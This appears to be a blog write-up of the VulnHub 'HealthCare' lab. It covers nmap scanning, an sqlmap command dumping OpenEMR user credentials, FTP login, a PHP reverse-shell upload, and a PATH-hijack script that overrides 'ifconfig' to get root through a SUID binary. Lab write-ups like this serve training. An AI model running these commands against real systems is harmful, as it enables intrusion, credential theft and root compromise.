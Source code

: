 ```yaml
---
layout : post
title: HealthCare
image : HealthCare.png
date: 2021-03-01 04:43 EST

tags: [sqlmap,PathHijacking Linux,php File Upload]
---
```


# Nmap

```
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
|_http-title: Coming Soon 2
MAC Address: 08:00:27:12:B9:5A (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

```
# Enumeration

<h3>Gobuster</h3>

![]({{site.baseurl}}/img/vulnhub/EVM1/gobutser.png)

found openemr // lead to sql injection at login page 

# Exploitation 

```
sqlmap -u http://10.0.2.37/openemr/interface/login/validateUser.php?u=admin -D openemr -T users --dump

```

![]({{site.baseurl}}/img/vulnhub/EVM1/sqlmap.png)

from `sql creds` , logged into `ftp`

```
medical : medical 
ackbar : admin 
```

![]({{site.baseurl}}/img/vulnhub/EVM1/ftp.png)

uploaded php shell into `var/www/` folder 

got reverseShell 

# Privilage Esclation 

from suid , healthChecker is executing the fdisk , ipconfig without path 

![]({{site.baseurl}}/img/vulnhub/EVM1/suid.png)

can override the  `ifconfig` , path 

The program is vulnerable because we control the PATH and the program doesn’t use the absolute path to execute the programs so we can execute anything we want as root. To get root I’ll just create a script that sets the SUID bit on /bin/bash, name it ifconfig and call /usr/bin/healthcheck after setting the path to my current directory so it doesn’t execute the real fdisk program but my own script

```bash
cd /tmp 

echo "/bin/bash" > ifconfig

chmod +x ifconfig

export PATH=/tmp:$PATH

/usr/bin/healthcheck

//got root access

```



![]({{site.baseurl}}/img/vulnhub/EVM1/root.png)